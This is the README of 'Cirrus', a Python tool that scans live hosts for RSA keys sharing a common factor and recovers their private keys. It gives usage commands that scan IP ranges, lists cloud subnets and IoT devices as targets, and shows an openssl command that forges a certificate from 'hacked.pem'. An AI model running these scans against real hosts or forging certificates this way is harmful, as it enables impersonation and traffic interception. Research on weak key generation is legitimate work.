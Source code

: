# Cirrus

## Introduction
Cirrus is an easy-to-use python script that launches RSA common factor attacks on live hosts. If a pair of hosts are found to contain a common factor in their moduli, two SSL private keys are created in the current directory in PEM format. These keys can be converted to working SSL certificates using OpenSSL:

```
openssl req -key hacked.pem -new -x509 -days 365 -out certificate.crt -subj '/CN=www.mydom.com/O=My Company Name LTD./C=US'
```
Ideal targets for Cirrus include:

* Subnets belonging to cloud hosting providers who clone the same VM over and over again.
* Subnets of virtual servers in general.
* IoT devices.

There is a nonzero probability that at least two targets in a large group of hosts falling into any of the above categories share a common RSA key factor. 

## Usage
Targets are specified to Cirrus by either providing an IP range or by providing a list of hosts to scan. 

```
usage: Cirrus.py [-h] [-t THREADS] [-ip [IPRANGE [IPRANGE ...]]] [-l LISTNAME]
                 [-lk LOADLIST] [-sk SAVELIST] [-c] [-to TIMEOUT]

optional arguments:
  -h, --help            show this help message and exit
  -t THREADS            number of threads to scan with
  -ip [IPRANGE [IPRANGE ...]]
                        IP range to scan, specify with [from] [to]
  -l LISTNAME           list of hosts to scan
  -lk LOADLIST          load list of saved keys from file
  -sk SAVELIST          save list of saved keys to file
  -c                    crack loaded RSA keys
  -to TIMEOUT           timeout in seconds before terminating connections
```
```
python Cirrus.py -c -to 2 -ip 192.168.1.1 192.168.1.250 -to 2 -t 10
```
```
python Cirrus.py -l targets.txt -c
```

## Requirements

In order to run Cirrus you must have the ‘gmpy’, ‘pyasn1’, and ‘pyopenssl’ pip packages installed. Additionally, a development installation of gmp is required. In Ubuntu the package name for this is ‘libgmp3-dev’. Running the unit tests requires openssl.

If you are interested in launching common factor attacks against absurdly large swaths of the Internet, check out the [EFF SSL Observatory](https://www.eff.org/observatory).
